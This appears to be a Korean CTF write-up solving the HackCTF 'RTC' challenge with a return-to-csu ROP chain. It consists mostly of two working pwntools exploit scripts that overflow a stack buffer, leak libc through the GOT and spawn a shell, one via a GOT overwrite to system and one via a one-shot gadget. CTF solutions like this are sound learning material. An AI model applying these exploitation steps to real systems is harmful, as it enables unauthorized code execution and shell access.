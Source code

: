 ```yaml
---
title: "[HackCTF]RTC"
date: 2019-12-22
ctf: HackCTF
layout: post
published : false
---
```


Return To Csu에 대해 이론 공부하고 나서 HackCTF RTC를 풀게되었는데 Chaining하는게 좀 재밌었다. 

`__libc_csu_init` 이용해서 Exploit하는건데 이해하는대로 풀었다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 512uLL);
}
```

gadget이 부족하기 때문에 일반적인 ROP를 할 수 없어서 RTC를 이용하면 된다.

main 함수에서 buf 크기가 0x40인데 512만큼 받으니까 ret을 `__libc_csu_init ` 주소로 돌려서 Chaining 해주면서 풀면 된다.

![](https://user-images.githubusercontent.com/32904385/71322849-b767ed00-250f-11ea-8c4b-68c2d8da8d67.png)

`0x4006BA` 부터 pop으로 레지스터 세팅해주고  `0x4006A0` 으로 `ret` 을 해줘서 인자 `edi`, `rsi` , `rdx` 를 각각 세팅해주고 함수  `0x4006A9` 에서 호출하기 할 수 있다. 

`0x4006BA` 부터 레지스터에 넣는거 이용해서 `0x4006A9` 에서 `call`하면 된다.

Chaining 계속하려면 `add rbx, 1` , `cmp rbx, rbp` 를 맞춰줘야 하니까 pop 레지스터 세팅해주는 곳에서 rbx를 0으로 맞춰서 `call qword ptr [r12+rbx*]` 에서 r12에 got주소 넣고 rbx에 0을 넣으면 그 함수를 실행할 수 있다.

그러니까 rbx에 0을 넣으니까 rbp는 1로 맞춰줘야 계속 Chaining을 할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
#p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> write_got -> call
# r13 -> rdx -> write(?,?,8)
# r14 -> rsi -> write(?,write_got,8)
# r15d -> edi -> write(1,write_got,8)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(10) + p64(e.bss()) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,10)
# r14 -> rsi -> write(?,bss,10)
# r15d -> edi -> write(0,bss,10)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(8) + p64(e.got['read']) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,8)
# r14 -> rsi -> write(?,read_got,8)
# r15d -> edi -> write(0,read_got,8)
# ret -> csu_call
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(0) + p64(0) + p64(e.bss()) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call -> system
# r13 -> rdx -> 0
# r14 -> rsi -> 0
# r15d -> edi -> system(bss) -> system("/bin/sh\x00")
# ret -> csu_call
p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('write : ' + hex(libc_base))

p.sendline('/bin/sh\x00')

p.sendline(p64(libc_base + libc.symbols['system']))

p.interactive()
```

다른 방법으론 oneshot gadget 이용해서 풀었다. libc base 구했으니까 main으로 리턴해주고 원샷 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
# p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) 
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(0) + p64(0) + p64(0) + p64(0) + p64(e.symbols['main'])

p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('libc_base : ' + hex(libc_base))

oneshot = 0x4526a
payload2 = 'A'*72
payload2 += p64(libc_base + oneshot) 

p.sendafter('?\n',payload2)
p.interactive()
```

